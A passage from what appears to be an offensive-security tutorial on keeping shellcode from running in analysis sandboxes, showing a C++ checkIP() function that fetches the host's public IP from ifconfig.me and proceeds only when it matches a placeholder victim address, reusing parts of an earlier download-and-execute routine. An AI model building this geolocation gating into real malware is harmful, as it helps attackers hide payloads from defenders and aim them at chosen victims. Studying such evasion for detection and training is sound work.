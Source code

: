 ## Geolocation Filtering

Moving onto our next method of evading execution of our shellcode on a Sandbox, we will be leveraging Geolocation blocks. Fortunately, we will be able to leverage a good amount of code that is already written for us. Portions of the "`downloadAndExecute()`" function can be re-used for this. We will be reusing the following components:

- Website URL (formerly the c2URL variable)
- Internet Stream (formerly the stream variable)
- String variable (formerly the s variable)
- Buffer Space (formerly the Buff variable)
- Bytes Read (formerly the unsigned long bytesRead variable)
- Lastly, theÂ [URLOpenBlockingStreamA](https://docs.microsoft.com/en-us/previous-versions/windows/internet-explorer/ie-developer/platform-apis/ms775127\(v=vs.85\))Â function

Integrating This into our Code

This translates to an actual function that looks so:

```cpp
BOOL checkIP() {   
 // Declare the Website URL that we would like to visit
    const char* websiteURL = "<https://ifconfig.me/ip>";   
 // Create an Internet Stream to access the website
    IStream* stream;   
 // Create a string variable where we will store the string data received from the website
    string s;   
  // Create a space in memory where we will store our IP Address
    char buff[35];   
    unsigned long bytesRead;   
 // Open an Internet stream to the remote website
    URLOpenBlockingStreamA(0, websiteURL, &stream, 0, 0);   
 // While data is being sent from the webserver, write it to memory
    while (true) {       
        stream->Read(buff, 35, &bytesRead);       
        if (0U == bytesRead) {           
            break;       
        }       
        s.append(buff, bytesRead);   
    }   
  // Compare if the string is equal to the targeted victim's IP. If true, return the check is successful. Else, fail the check.
    if (s == "VICTIM_IP") {       
        return TRUE;   
    }   
    else {       
    return FALSE;   
    }
} 
```

This code can be broken down into the following steps:
